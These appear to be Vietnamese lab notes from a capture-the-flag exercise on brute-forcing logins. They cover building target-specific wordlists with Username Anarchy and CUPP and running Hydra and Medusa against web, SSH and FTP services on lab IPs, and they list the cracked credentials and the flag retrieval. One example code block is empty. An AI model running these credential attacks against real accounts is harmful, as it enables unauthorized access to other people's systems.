 ### **Sử dụng các từ điển tùy chỉnh trong các cuộc tấn công brute-force:**

Trong các cuộc tấn công brute-force, việc sử dụng các **từ điển tùy chỉnh (custom wordlists)** giúp tăng hiệu quả và giảm thời gian so với việc sử dụng các từ điển có sẵn như **rockyou** hay **SecLists**, vì chúng được tạo ra dựa trên thông tin riêng biệt của mục tiêu, làm tăng khả năng thành công của cuộc tấn công.

#### **1. Quét và Tạo Username với Username Anarchy**:

Khi đối mặt với một mục tiêu cụ thể như **Jane Smith**, việc tạo ra một danh sách tên người dùng từ các tên cơ bản và kết hợp những kiểu phổ biến có thể bao gồm:

* **Kết hợp tên và họ**: janesmith, smithjane
* **Sử dụng tên viết tắt**: js, j.s., s.j., v.v.
* **Các biến thể khác**: sử dụng leetspeak, ký tự đặc biệt, hoặc thậm chí kết hợp sở thích cá nhân vào tên người dùng.

**Công cụ: `Username Anarchy`** giúp tạo ra một danh sách các tên người dùng có thể từ những thông tin cơ bản (tên, họ).
```bash
 sudo apt install ruby -y
 git clone https://github.com/urbanadventurer/username-anarchy.git
 cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

Kết quả sẽ là một danh sách tên người dùng đa dạng, từ đó có thể sử dụng trong cuộc tấn công brute-force.

#### **2. Tạo Mật Khẩu Tùy Chỉnh với CUPP**:

**CUPP** (Common User Password Profiler) là công cụ giúp tạo ra các từ điển mật khẩu tùy chỉnh, sử dụng thông tin cá nhân về mục tiêu như:

* **Tên** và **họ**
* **Ngày sinh**, **nickname**, **sở thích**, **mối quan hệ**, **số điện thoại**, v.v.

CUPP sẽ tạo ra một danh sách mật khẩu có thể bao gồm các biến thể từ thông tin cá nhân, như:

* **Tên gốc và chữ hoa**: jane, Jane
* **Ngày sinh**: jane1990, smith1212
* **Kết hợp các ký tự đặc biệt**: jane!, smith@, v.v.

Để tạo danh sách mật khẩu, ta có thể nhập thông tin vào CUPP trong chế độ tương tác:

```bash
cupp -i
```

Sau khi tạo mật khẩu, có thể lọc ra các mật khẩu phù hợp với chính sách của hệ thống, ví dụ như yêu cầu có ít nhất một ký tự hoa, một ký tự thường, một số, và hai ký tự đặc biệt.

Ví dụ lọc mật khẩu:

```bash

```

#### **3. Sử dụng Hydra để Tấn Công Brute-Force**:

Sau khi có danh sách tên người dùng và mật khẩu, ta sử dụng **Hydra** để thực hiện tấn công brute-force vào form đăng nhập của trang web. Hydra sẽ thử tất cả các kết hợp tên người dùng và mật khẩu từ danh sách đã tạo.

Ví dụ lệnh:

```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

Kết quả sẽ trả về **cặp tên người dùng và mật khẩu hợp lệ** nếu tìm thấy. Sau đó, người tấn công có thể đăng nhập vào trang web với **credentials** đã phát hiện và lấy cờ.

---

### **Kết luận**:

Các công cụ như **Username Anarchy** và **CUPP** giúp tạo ra các từ điển tùy chỉnh từ thông tin cá nhân của mục tiêu, làm tăng khả năng thành công của các cuộc tấn công brute-force. Sau đó, kết hợp với **Hydra** để thử tất cả các kết hợp từ điển này vào trang web mục tiêu, kẻ tấn công có thể tìm ra mật khẩu và chiếm quyền truy cập vào tài khoản của mục tiêu.
# ** Thực hành**
nmap -sV 83.136.253.59 -p 49534
./username-anarchy Jane Smith > usernames.txt
cupp -i (enter osint infomation)
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
hydra -L usernames.txt -P jane-filtered.txt 83.136.253.59 -s 49534 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
![alt text](image.png)
Log on and get flag

## Skill Assessment
Part1
![alt text](image-1.png)
tấn công http-get
```bash
 hydra -I \
  -L top-usernames-shortlist.txt \
  -P 2023-200_most_used_passwords.txt \
  -s 32344 -t 16 -f -V \
  94.237.48.12 http-get / \
  -o found.txt
```      
[32344][http-get] host: 94.237.48.12   login: admin   password: Admin123
remember wget raw link from  
https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt

Answer: satwossh
hydra -l satwossh -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt ssh://94.237.60.18:57621
Got credentials: login: satwossh password: password1
Now ssh into the target:
ssh satwossh@94.237.122.12 -p45413
Found good files and a convenient tool:
Got hints from the report:

Upon reviewing recent FTP activity, we have identified suspicious behavior linked to a specific user. The user **Thomas Smith** has been regularly uploading files to the server during unusual hours and has bypassed multiple security protocols. This activity requires immediate investigation.
![alt text](image-3.png)

All logs point towards Thomas Smith being the FTP user responsible for recent questionable transfers. We advise closely monitoring this user’s actions and reviewing any files uploaded to the FTP server.
I used username-anarchy with Thomas Smith:
./username-anarchy/username-anarchy Thomas Smith > thomas_smith_usernames.txt
finally happy attack time:
medusa -h 127.0.0.1 -U thomas_smith_usernames.txt -P passwords.txt -M ftp -t 5 | grep SUCCESS
Got the credentials thomas:chocolate!.
![alt text](image-4.png)
ftp ftp://thomas@localhost
ls
get flag.txt
!cat flag.txt
